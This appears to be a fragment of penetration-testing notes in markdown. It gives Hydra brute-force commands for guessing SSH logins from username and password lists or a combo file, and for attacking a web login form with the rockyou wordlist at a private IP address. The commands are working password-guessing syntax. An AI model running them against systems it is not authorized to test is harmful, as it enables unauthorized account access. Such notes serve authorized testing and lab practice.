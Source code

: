 ## SSH

```bash
hydra -L users.txt -P pass.txt x.x.x.x ssh -V
```

Using a file username and password file, separated by a `:`

```bash
hydra -C pass.txt x.x.x.x ssh -V
```

### Web-Post-Form

```bash
hydra -l kevin -P /opt/rockyou.txt 192.168.0.181 http-post-form "/index.php:user=^USER^&pass=^PASS^:Username or password invalid" -VV -F -I
```